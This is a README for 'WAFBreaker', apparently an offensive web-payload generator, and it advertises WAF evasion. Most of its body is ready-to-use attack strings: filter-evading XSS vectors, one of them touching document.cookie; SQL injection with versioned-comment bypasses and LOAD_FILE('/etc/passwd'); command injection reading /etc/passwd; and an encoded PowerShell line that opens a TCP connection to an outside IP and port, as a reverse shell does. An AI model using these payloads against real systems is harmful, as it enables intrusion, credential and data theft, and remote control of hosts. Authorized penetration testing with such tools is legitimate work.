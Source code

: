 # 🛡️ Web Exploitation Payload Generator

![Python Version](https://img.shields.io/badge/python-3.8+-blue.svg)
![License](https://img.shields.io/badge/license-MIT-green.svg)
[![Documentation](https://img.shields.io/badge/docs-Advanced-blueviolet)](https://github.com/yourusername/web-exploitation-payload-generator/wiki)

> **The ultimate toolkit for security professionals**  
> Generate, test, and analyze evasion-ready payloads for critical web vulnerabilities

## 📋 Table of Contents
- [✨ Key Features](#key-features)
- [⚙️ Installation](#installation)
- [🚀 Usage Examples](#usage-examples)
- [🔧 Payload Modules](#payload-modules)
- [🔌 API Integration](#api-integration)
- [📤 Sample Outputs](#sample-outputs)
- [🤝 Contributing](#contributing)
- [📜 License](#license)
- [⚠️ Legal Disclaimer](#legal-disclaimer)

---

<a id="key-features"></a>
## ✨ Key Features

| Feature | Description | Advanced Capabilities |
|---------|-------------|----------------------|
| **XSS Payloads** | Reflected, Stored, DOM-based payloads | SVG/srcdoc/null-byte bypasses, JSFuck obfuscation |
| **SQL Injection** | Error-based, Union-based, Blind SQLi | WAF evasion with versioned comments, whitespace bypass |
| **Command Injection** | Linux/Windows payload variants | Encoding bypasses, argument splitting |
| **Payload Processing** | Base64/URL/Hex/Unicode encoding | 3-tier obfuscation engine with null bytes |
| **Tool Integration** | Burp Suite & OWASP ZAP API | Automated payload delivery |
| **Enterprise Output** | CLI, JSON, clipboard | Customizable templates, batch processing |

---

<a id="installation"></a>
## ⚙️ Installation

```


# Clone repository
git clone https://github.com/ameer4k/WAFBreaker.git
cd WAFBreaker

# Install dependencies
pip install -r requirements.txt

# Launch tool
python main.py [CLI_OPTIONS]  # Command-line interface
python main.py                # Graphical interface
```

---

<a id="usage-examples"></a>
## 🚀 Usage Examples

### CLI Interface (Penetration Testing)

```bash
# Generate SQLi payloads with WAF bypass in JSON format
python main.py --type sqli --technique union --bypass --output json > payloads.json

# Create obfuscated XSS payloads and send to Burp Suite
python main.py --type xss --obfuscate 3 --burp http://localhost:8080

# Generate Windows command injection payloads with Base64 encoding
python main.py --type cmdi --os windows --encode base64
```

### GUI Interface (Security Training)
##### Open GUI Interface , just type: 
python main.py

![WAF GUI Interface](images/WAFGui.PNG)

Interactive payload generation with real-time preview

## 📸 Screenshots & Testing Examples

### Tool Interface & Testing Results

![WAFBreaker Interface 1](images/WAFBreaker2.PNG)


![WAFBreaker Interface 2](images/WAFBreaker5.PNG)


![WAFBreaker Testing 1](images/WAFbreaker3.PNG)


![WAFBreaker Testing 2](images/WAFbreaker4.PNG)


### Performance & Analysis

![Graph Analysis](images/Grappph.png)
*Performance metrics and payload success rate analysis*

---

<a id="payload-modules"></a>
## 🔧 Payload Modules

### 1. XSS Payload Generator

```html
<!-- DOM-based XSS with evasion -->
<svg/onload=alert`${document.domain}`>
<img src=x oneerror=alert(1)>
<script>/*!*/al\u0065rt(1)/*!*/</script>
```

### 2. SQL Injection Engine

```sql
-- WAF Bypass Examples
1'/*!50000UNION*//*!50000SELECT*/@@version,2,3-- -
id=1' AND 1=(SELECT LOAD_FILE('/etc/passwd')) -- 
' OR 1=1 /*!0aNd*/ '1'='1
```

### 3. Command Injection

```bash
# Linux payloads
;cat /etc/passwd
`echo d2hvYW1p | base64 -d`  # whoami
```

```powershell
# Windows bypasses
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEALgAxADAAIgAsADQANAA0ADQAKQA=
```

---

<a id="api-integration"></a>
## 🔌 API Integration

```python
# Send payloads directly to Burp Suite
from api_integration import BurpSuiteAPI

burp = BurpSuiteAPI("http://localhost:8080")
for payload in generated_payloads:
    burp.send_to_repeater(payload)
```

---

<a id="sample-outputs"></a>
## 📤 Sample Outputs

### JSON Export

```json
{
  "module": "XSS",
  "technique": "DOM-based",
  "payloads": [
    "<svg onload=alert(document.domain)>",
    "<img src=x:g onerror=\"eval(atob('YWxlcnQoJ1hTUycp'))\">",
    "javascript:alert`${btoa(document.cookie)}`"
  ]
}
```

### Command-Line Output

```text
[1] ' UNION SELECT @@version,user() -- 
[2] id=1'/*!50000UNION*//*!50000SELECT*/1,table_name,3 FROM information_schema.tables-- -
[3] ' AND (SELECT 1 FROM (SELECT SLEEP(5))a) --
```

---

<a id="contributing"></a>
## 🤝 Contributing

We welcome security researchers and developers to:

- Report issues and suggest features
- Submit PRs with new payload modules
- Improve evasion techniques
- Add support for additional security tools

See our [Contribution Guidelines](CONTRIBUTING.md) for details.

---

<a id="license"></a>
## 📜 License

This project is licensed under the MIT License - see [LICENSE](LICENSE) file for details.

---

<a id="legal-disclaimer"></a>
## ⚠️ Legal Disclaimer

**Important:** This tool is intended solely for:

- Educational purposes
- Security research
- Authorized penetration testing
- Improving defensive strategies

**Never use this tool on systems without explicit written permission.** The developers assume no liability and are not responsible for any misuse or damage caused by this software.
